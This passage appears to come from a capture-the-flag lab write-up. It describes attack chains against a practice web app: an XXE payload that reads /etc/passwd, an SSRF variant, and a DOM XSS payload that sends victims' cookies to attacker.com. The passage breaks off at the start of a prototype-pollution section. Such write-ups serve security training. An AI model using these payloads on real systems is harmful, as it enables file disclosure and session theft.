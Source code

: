 **Achievement**: Flag `DARK{t3mpl4t3_1nj3ct10n}`

### XXE Injection for Data Extraction and SSRF
**Vulnerability**: XML External Entity injection
**Target**: XML processing functionality
**Objective**: Read local files and perform SSRF

**Attack Chain**:
1. Identify XML processing at `/api/import-xml`
2. Create malicious XML with XXE payload:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <data>&xxe;</data>
   ```
3. Submit XML to extract local files
4. Modify payload for SSRF:
   ```xml
   <!DOCTYPE foo [
     <!ENTITY xxe SYSTEM "http://internal-service:8080/admin">
   ]>
   ```
5. Use SSRF to access internal services and localhost endpoints

**Achievement**: Flag `DARK{xxe_data_extr4ct0r}`

## Client-Side Attack Chains

### DOM-based XSS Attack
**Vulnerability**: DOM-based XSS in client-side rendering
**Target**: Other users' browsers
**Objective**: Execute JavaScript in victim browsers

**Attack Chain**:
1. Access client-side rendering page at `/client-render`
2. Test with basic XSS payload: `<script>alert(1)</script>`
3. Observe script execution in the browser
4. Craft payload to steal cookies:
   ```html
   <img src="x" onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
   ```
5. Create URL with payload: `/client-render?message=<img src="x" onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">`
6. Send URL to victims
7. Collect cookies from victim browsers

**Achievement**: Flag `DARK{xss_3xpl01t3r}`

### Prototype Pollution Attack
**Vulnerability**: Prototype pollution in JavaScript
**Target**: Application logic
**Objective**: Modify Object prototype to affect application behavior
